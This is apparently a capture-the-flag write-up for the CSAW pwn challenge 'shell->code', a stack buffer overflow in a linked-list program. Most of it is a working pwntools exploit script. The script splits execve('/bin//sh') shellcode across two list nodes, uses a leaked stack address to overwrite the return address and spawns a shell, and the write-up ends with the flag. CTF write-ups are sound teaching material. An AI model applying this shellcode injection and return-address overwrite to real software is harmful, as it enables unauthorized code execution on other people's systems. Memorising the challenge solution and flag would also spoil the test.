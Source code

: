 # **shell->code**

#### tag : pwn, bof, shellcode, asm

-----------------------------------------------

#### Description

>Linked lists are great! They let you chain pieces of data together.
>
>nc pwn.chal.csaw.io 9005

-----------------------------------------------

#### Solution

```python

from pwn import *

### DEBUGGING ###

context.binary = ELF('shellpointcode')

DEBUG = False

if DEBUG:
    r = process('shellpointcode')
    timeout = 0.1

    context.log_level = 'debug'
#    gdb.attach(r,'''
#    b main
#    ''')
else :
    r = remote('pwn.chal.csaw.io', 9005)
    timeout = 0.3

def rr(s):
    return r.recvuntil(s)

def ss(s):
    return r.sendline(s)

### ADDRESS ###

### PAYLOAD ###

sh1 = ''
sh1 += asm('mov rbx, 0x68732f6e69622f2f')
sh1 += asm('pop rdx')
sh1 += asm('jmp rsp')

'''

   0:   48 bb 2f 2f 62 69 6e    movabs rbx,0x68732f6e69622f2f
   7:   2f 73 68
   a:   5a                      pop    rdx
   b:   ff e4                   jmp    rsp

'''

sh2 = ''
sh2 += asm('xor rsi, rsi')
sh2 += asm('xor rdx, rdx')
sh2 += asm('mov al, 0x3b')
sh2 += asm('push rdx')
sh2 += asm('push rbx')
sh2 += asm('mov rdi, rsp')
sh2 += asm('syscall')

'''

   0:   48 31 f6                xor    rsi,rsi
   3:   48 31 d2                xor    rdx,rdx
   6:   b0 3b                   mov    al,0x3b
   8:   52                      push   rdx
   9:   53                      push   rbx
   a:   48 89 e7                mov    rdi,rsp
   d:   0f 05                   syscall

'''

### EXPLOIT ###

rr(':')
ss(sh1)

rr(':')
ss(sh2)

rr(':')
rr('.next: ')

leak = int(rr('\n'),16) + 40
log.info('leak : 0x%x' % leak)

rr('?\n')

ss('a'*11 + p64(leak))

r.interactive()


```

**flag{NONONODE_YOU_WRECKED_BRO}**

